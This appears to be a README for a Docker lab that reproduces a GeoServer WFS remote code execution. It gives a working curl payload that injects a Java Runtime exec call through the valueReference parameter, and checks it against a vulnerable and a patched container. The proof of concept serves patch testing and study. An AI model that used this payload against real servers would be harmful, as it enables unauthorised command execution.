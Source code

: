  
# setup 
```bash
docker compose up
```
# Vulnerable version
```
curl "http://172.20.0.3:8080/geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1')"
docker exec -it geoserver-vulnerable-1 /bin/bash
ls /tmp/success1
```
# Patched version
do the same for a secured geoserver instance at 172.20.0.2
```
curl "http://172.20.0.2:8080/geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success2')"
docker exec -it geoserver-safe-1 /bin/bash
ls /tmp/success2
```
you can see there is no file with this path
